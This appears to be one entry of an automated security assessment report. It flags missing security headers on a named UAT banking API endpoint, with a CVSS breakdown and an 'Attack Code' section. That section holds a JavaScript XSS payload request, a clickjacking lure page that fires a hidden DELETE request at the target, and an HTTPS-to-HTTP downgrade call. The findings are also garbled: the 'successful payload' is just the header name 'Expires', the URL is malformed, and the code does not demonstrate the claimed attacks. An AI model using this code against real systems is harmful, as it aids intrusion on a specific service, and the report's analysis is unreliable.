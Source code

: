 ### 8. Security Headers Vulnerability

**🎯 Target:** `https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false`

**📝 Description:** Missing security headers expose the application to various attacks including XSS, clickjacking, and protocol downgrade attacks.

**💥 Impact:** XSS, clickjacking, protocol downgrade, MIME confusion attacks, information disclosure

**🔍 CVSS Score:** 6.5 (Medium)

**📊 CVSS Details:**
- **Attack Vector:** Network
- **Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** Required
- **Scope:** Unchanged
- **Confidentiality:** Low
- **Integrity:** Low
- **Availability:** None

**🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Expires`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
        function triggerDelete() {
            fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false", {method: "DELETE"});
        }
    </script>
</body>
</html>`;

// 3. Protocol Downgrade (if HSTS missing)
// Attacker intercepts HTTPS and forces HTTP
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false".replace('https://', 'http://'));
```
